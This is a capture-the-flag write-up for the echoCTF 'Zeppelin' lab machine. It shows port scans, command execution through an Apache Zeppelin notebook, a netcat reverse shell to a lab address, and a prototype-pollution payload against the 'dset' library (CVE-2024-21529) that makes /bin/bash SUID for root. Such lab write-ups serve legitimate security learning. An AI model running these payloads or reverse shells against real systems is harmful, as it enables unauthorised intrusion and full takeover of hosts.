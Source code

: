 ```yaml
---
description: >-
  Zeppelin echoCTF Machine
title: Zeppelin (Insane)                # Add title here
date: 2025-02-19 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Insane]                     # Change Templates to Writeup
tags: [Zeppelin, RCE, Prototype Pollution]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Zeppelin.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.54
```

### Content

- Zeppelin RCE in Notebooks
- `dset` Prototype Pollution

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.54
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.54 ()     Status: Up
Host: 10.0.14.54 ()     Ports: 22/open/tcp//ssh///, 8080/open/tcp//http-proxy///
```
Services and Versions running:
```bash
nmap -p22,8080 -sCV -n -Pn -vvvv -oN targeted 10.0.14.54
Nmap scan report for 10.0.14.54
Host is up, received user-set (0.16s latency).
Scanned at 2025-02-19 12:43:45 EST for 56s

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f7:cc:33:87:22:ed:c3:cb:45:b7:dd:95:f2:34:da:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKouI3kffwDSRKY1B25jhOuMVUNNUfvamusW5mdT1KXDH7avAh82yQPsd3hoiOvuSV1U1nEB4Zk/HaxCxAkfPQ0=
|   256 62:9c:fb:c3:b5:be:07:b2:57:76:db:ba:4e:ad:8a:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICUppbfs4rbq3sknjIEJK2de7E+pZwsIv/bRSjzM1s8T
8080/tcp open  http-proxy syn-ack ttl 63
|_http-title: Zeppelin
|_http-server-header: <empty>

```

### Exploitation

First of all, there is a web page on port HTTP 8080:
![](/assets/img/Pasted-image-20250219112745.png)

It seems like the CMS is called Zeppelin, so I searched for possible exploits an I found this interesting [Zeppelin RCE tricks](https://exploit-notes.hdks.org/exploit/web/apache-zeppelin-pentesting/) page, which explains how is possible to run commands from notebooks, after testing some of the Interpreters, none of the worked, except for the `sh`:
![](/assets/img/Pasted-image-20250219112952.png)

Once I identified that `sh` interpreter worked using the command `cat /etc/passwd`:
![](/assets/img/Pasted-image-20250219113253.png)

Then all you need to execute is your favorite reverse shell command:
```bash
nc -e /bin/bash 10.10.5.122 1234
```

### Privilege Escalation

For privilege escalation there is a script that we can run as sudo without password:
```bash
ETSCTF@zeppelin:/opt/zeppelin-0.11.0-bin-all$ sudo -l
Matching Defaults entries for ETSCTF on zeppelin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User ETSCTF may run the following commands on zeppelin:
    (ALL : ALL) NOPASSWD: /opt/node/bin/setter
```
Its content is like this:
```bash
#!/opt/node/bin/node
var args = process.argv.slice(2);
(async () => {
  const lib = await import('dset');
  var obj = args[0]
  var prop = args[1]
  var val = args[2]
  try {
    lib.dset(JSON.parse(obj), JSON.parse(prop), val)
  } catch (e) { }
  var shell = {}
  if(shell.cmd)
  {
    eval(shell.cmd);
  }
```
The interesting part of this script is the `dset` library, after some research, I came up with this [CVE-2024-21529](https://security.snyk.io/vuln/SNYK-JS-DSET-7116691), the vulnerability is because of a prototype pollution, after some testing and some ChatGPT prompts I ended with this payload:
```bash
sudo /opt/node/bin/setter '{}' '[["__proto__"],"cmd"]' 'require("child_process").execSync("chmod +s /bin/bash")'
```
Finally run the bash as root:
```bash
/bin/bash -p
```

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`


### Credentials
- No credentials were neeeded for this machine


### Notes

- CVE exploits are always something you should always check, even if the version of the app is not the same as in the exploit, is worth to check them anyways, sometimes there are versions of the app that are still vulnerable because the version is a development one such as `1.0.0-dev` which hasn't been patched yet.

### References
- [Zeppelin RCE tricks](https://exploit-notes.hdks.org/exploit/web/apache-zeppelin-pentesting/)


